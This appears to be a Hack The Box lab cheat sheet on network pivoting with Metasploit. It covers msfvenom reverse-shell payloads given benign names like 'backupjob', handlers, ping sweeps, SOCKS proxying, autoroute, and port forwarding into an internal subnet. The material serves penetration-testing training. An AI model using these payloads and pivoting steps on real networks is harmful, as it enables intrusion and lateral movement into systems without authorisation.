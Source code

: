 # 1 connect to server
---

#### Creating Payload for Ubuntu Pivot Host
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

#### Configuring & Starting the multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

#### Executing the Payload on the Pivot Host
```shell-session
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

#### Meterpreter Session Establishment

----
---






# 2- Ping Sweep
---
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### Ping Sweep For Loop on Linux Pivot Hosts
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.6.$i | grep "bytes from" &) ;done
```

#### Ping Sweep For Loop Using CMD
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

#### Ping Sweep Using PowerShell
```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

---
---






# 3- Configuring MSF's SOCKS Proxy
---

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

#### Adding a Line to proxychains.conf if Needed
```shell-session
socks4 	127.0.0.1 9050
socks5    ip           port
```

#### Creating Routes with AutoRoute
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```

#### proxychains
```shell-session
AhmaDb0x@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```


------




# 4- Port Forwarding

## local
```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
```shell-session
AhmaDb0x@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

## Reverse
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```


#### Generating the Windows Payload
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```


```shell-session
C:\>
```

**The Pivot Host doesn’t "catch" the reverse shell itself—it only forwards it.**  
The **Hidden Target (172.16.5.129)** executes `backupscript.exe`, which tries to connect to **172.16.5.100 (Pivot Host) on port 1234**. The Pivot Host, instead of "catching" it, just forwards that traffic to **your Attack Machine (10.10.14.18) on port 8081**.
